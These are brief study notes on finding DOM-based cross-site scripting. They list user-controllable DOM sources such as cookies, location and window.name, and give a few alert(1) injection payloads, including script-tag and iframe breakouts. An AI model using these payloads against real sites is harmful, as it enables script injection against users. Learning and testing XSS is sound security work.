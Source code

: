 ## Solution
- Debug to trace :
  - premise: input and output
  - then: trying to bypass strictions

## Input
Always check the code, figure out what can be controlled by user, and what these parameter can be used.
```
var value = '<%request.getparameter("key")%>';
var value = document.cookie, url;
var value = location.search.substr(6)

document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
```

## output
```
<iframe src = javascript:alert(1)>
document.write('<iframe src= ' + input + '>');
inside the script code: "><script>alert(1)</script>
```
- [hacktricks](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/dom-xss.md)
